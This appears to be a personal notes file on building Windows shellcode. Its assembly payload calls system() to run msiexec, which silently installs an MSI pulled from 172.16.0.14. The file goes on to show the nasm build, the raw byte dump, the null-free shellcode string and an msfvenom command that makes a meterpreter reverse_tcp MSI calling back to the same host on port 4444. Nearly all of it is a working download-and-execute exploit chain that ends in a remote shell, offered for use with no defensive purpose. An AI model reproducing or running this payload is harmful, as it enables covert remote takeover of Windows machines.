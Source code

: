 https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12

#Follow above tutorials to output shellcode or follow dudes write-up....I'm sure it works!

#The following asm does this: #

#msiexec /i http*://172.16.0.14/jasonm.msi /qn

#Need to Determine LoadLibrary, ExitProcess & System via Arwin


------------assembly starts---------------

BITS 32


global _start


_start:
			
mov ebx, 0x777fde35      			;Address of function LoadLibraryA (win7)

call ebx

mov ebp, eax             			;msvcrt.dll is saved in ebp

xor eax, eax

PUSH eax

PUSH 0x6e712f20

PUSH 0x69736d2e

PUSH 0x6d6e6f73

PUSH 0x616a2f34

PUSH 0x312e302e

PUSH 0x36312e32

PUSH 0x37312f2f

PUSH 0x3a707474

PUSH 0x6820692f

PUSH 0x20636578

PUSH 0x6569736d

MOV EDI,ESP

PUSH EDI

MOV EAX, 0x768db177				;calling the system()

CALL EAX

xor eax, eax

push eax

mov eax, 0x7780be5a     			; ExitProcess

call eax

--------------assembly end----------------------------------

Save as msi.asm


xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.bin

xvz@xvz-PC ~
$ xxd -i msi.bin
unsigned char msi_bin[] = {
  0x4c, 0x01, 0x01, 0x00, 0x2e, 0x4c, 0x0f, 0x5f, 0x93, 0x00, 0x00, 0x00,
  0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78,
  0x74, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x57, 0x00, 0x00, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x93, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x20, 0x00, 0x50, 0x60,
  0xbb, 0x35, 0xde, 0x7f, 0x77, 0xff, 0xd3, 0x89, 0xc5, 0x31, 0xc0, 0x50,
  0x68, 0x20, 0x2f, 0x71, 0x6e, 0x68, 0x2e, 0x6d, 0x73, 0x69, 0x68, 0x73,
  0x6f, 0x6e, 0x6d, 0x68, 0x34, 0x2f, 0x6a, 0x61, 0x68, 0x2e, 0x30, 0x2e,
  0x31, 0x68, 0x32, 0x2e, 0x31, 0x36, 0x68, 0x2f, 0x2f, 0x31, 0x37, 0x68,
  0x74, 0x74, 0x70, 0x3a, 0x68, 0x2f, 0x69, 0x20, 0x68, 0x68, 0x78, 0x65,
  0x63, 0x20, 0x68, 0x6d, 0x73, 0x69, 0x65, 0x89, 0xe7, 0x57, 0xb8, 0x77,
  0xb1, 0x8d, 0x76, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xb8, 0x5a, 0xbe, 0x80,
  0x77, 0xff, 0xd0, 0x2e, 0x66, 0x69, 0x6c, 0x65, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0xfe, 0xff, 0x00, 0x00, 0x67, 0x01, 0x6d, 0x73, 0x69,
  0x2e, 0x61, 0x73, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78, 0x74, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x03, 0x01, 0x57, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x61, 0x62, 0x73, 0x6f, 0x6c, 0x75, 0x74, 0x00,
  0x00, 0x00, 0x00, 0xff, 0xff, 0x00, 0x00, 0x03, 0x00, 0x40, 0x66, 0x65,
  0x61, 0x74, 0x2e, 0x30, 0x30, 0x01, 0x00, 0x00, 0x00, 0xff, 0xff, 0x00,
  0x00, 0x03, 0x00, 0x04, 0x00, 0x00, 0x00
};

#Get rid of null bytes

xvz@xvz-PC ~
$ ./xxd-shellcode.sh msi.bin

"\xbb\x35\xde\x7f\x77\xff\xd3\x89\xc5\x31\xc0\x50\x68\x20\x2f\x71\x6e\x68\x2e\x6d\x73\x69\x68\x73\x6f\x6e\x6d\x68\x34\x2f\x6a\x61\x68\x2e\x30\x2e\x31\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x37\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x89\xe7\x57\xb8\x77\xb1\x8d\x76\xff\xd0\x31\xc0\x50\xb8\x5a\xbe\x80\x77\xff\xd0"

#add to script

#Create MSI
#msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

#Start web-server port 80
